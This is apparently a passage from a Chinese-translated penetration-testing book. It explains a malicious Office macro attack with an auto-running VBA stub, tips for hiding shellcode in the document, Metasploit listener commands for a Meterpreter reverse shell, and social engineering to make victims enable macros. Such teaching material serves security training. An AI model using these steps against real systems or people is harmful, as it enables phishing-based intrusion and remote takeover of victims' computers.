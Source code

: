 要使用脚本，打开 Microsoft Office 文档并创建一个宏（具体命令将取决于所使用的 Microsoft Windows 版本）。将以下信息框中给出的文本的第一部分（从`Sub Auto_Open()`到最后的`End Sub`）复制到宏编辑器中，并保存为启用宏。

```
'**************************************************************
'*
'* MACRO CODE
'*
'**************************************************************

Sub Auto_Open()
    Ffqsm12
    End Sub

// Additional code removed for clarity

Sub Workbook_Open()
    Auto_Open
End Sub
```

接下来，将 Shellcode 复制到实际文档中。Shellcode 的部分摘录如下屏幕截图所示：

![使用 VBScript 进行攻击](img/3121OS_11_02.jpg)

Shellcode 可识别为可用于执行攻击的脚本，因此您可能希望通过减小字体大小并使颜色与文档的背景匹配来隐藏或混淆 Shellcode。

攻击者必须在 Metasploit 上设置监听器。在命令提示符下输入`msfconsole`后，攻击者通常会输入以下命令，并设置主机、端口和有效载荷的选项；此外，攻击者还将配置连接自动迁移到更稳定的`explorer.exe`进程，如下面的命令行所示。

```
msf>use exploit/multi/handler 
msf>set lhost 192.168.43.130
msf>set lport 4444
msf>set payload windows/meterpreter/reverse_tcp
msf>set autorunscript migrate -n explorer.exe
msf >exploit 

```

当文件发送到目标时，打开时会弹出一个安全警告；因此，攻击者将使用社会工程学来迫使预期的受害者选择**启用**选项。最常见的方法之一是将宏嵌入已配置为玩游戏的 Microsoft Word 文档或 Excel 电子表格中。
